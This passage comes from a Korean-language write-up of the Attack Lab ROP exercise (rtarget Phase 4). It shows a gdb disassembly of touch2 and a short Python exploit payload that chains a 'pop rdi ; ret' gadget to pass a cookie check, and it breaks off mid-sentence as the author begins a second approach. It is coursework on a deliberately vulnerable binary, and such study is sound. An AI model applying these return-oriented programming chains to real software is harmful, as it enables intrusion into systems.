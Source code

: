 



## Phase 4

In `touch2` of `rtarget`:

```assembly
gef➤  disas touch2
Dump of assembler code for function touch2:
   0x0000000000401702 <+0>:     sub    rsp,0x8
   0x0000000000401706 <+4>:     mov    esi,edi
   0x0000000000401708 <+6>:     mov    DWORD PTR [rip+0x203dea],0x2        # 0x6054fc <vlevel>
   0x0000000000401712 <+16>:    cmp    edi,DWORD PTR [rip+0x203dec]        # 0x605504 <cookie>
   0x0000000000401718 <+22>:    jne    0x401735 <touch2+51>
   0x000000000040171a <+24>:    mov    edi,0x402f90
   0x000000000040171f <+29>:    mov    eax,0x0
   0x0000000000401724 <+34>:    call   0x400c80 <printf@plt>
   0x0000000000401729 <+39>:    mov    edi,0x2
   0x000000000040172e <+44>:    call   0x401c19 <validate>
   0x0000000000401733 <+49>:    jmp    0x40174e <touch2+76>
   0x0000000000401735 <+51>:    mov    edi,0x402fb8
   0x000000000040173a <+56>:    mov    eax,0x0
   0x000000000040173f <+61>:    call   0x400c80 <printf@plt>
   0x0000000000401744 <+66>:    mov    edi,0x2
   0x0000000000401749 <+71>:    call   0x401ccb <fail>
   0x000000000040174e <+76>:    mov    edi,0x0
   0x0000000000401753 <+81>:    call   0x400df0 <exit@plt>
End of assembler dump.
```

`   0x0000000000401712 <+16>:    cmp    edi,DWORD PTR [rip+0x203dec]        # 0x605504 <cookie>`를 통과하기 위해, `edi`에 `cookie`를 옮기는 코드가 필요하다.

필요한 조건은 다음과 같다.

* Buffer 채우기 (0x18 bytes)
* `rdi`에 `cookie`를 `pop`하기
* 이후 `touch_2`의 address로 `ret`하기

>*따라서, `pop rdi ; ret` gadget을 찾아 `cookie`를 `rdi`로 `pop`하고, `TOUCH_2_ADDR`으로 `ret`하는 시나리오를 구상하였다.*
>
>*다음과 같이 Exploit Code를 구성하였고, 실행해서 서버 상에서 유효한 정답임을 보였으나, Scoreboard에서 invalid하다는 결과를 얻었다.*
>
>```py
>Ex = b''
>Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
>
>Ex += p64(find_gadget_addr("pop rdi ; ret"))
>Ex += p64(COOKIE)
>Ex += p64(TOUCH_2_ADDR)
>```

이 때문에 다른 접근을 시도하였으며, `rdi`에서 directly `pop`하는 것이 아닌 다른 register를 사용하여 `pop`한 후, `mov` instruction을 이용해 `rdi`로 옮기는 시나리오를 구상하였으며, 필요 조건은 다음과 같다.
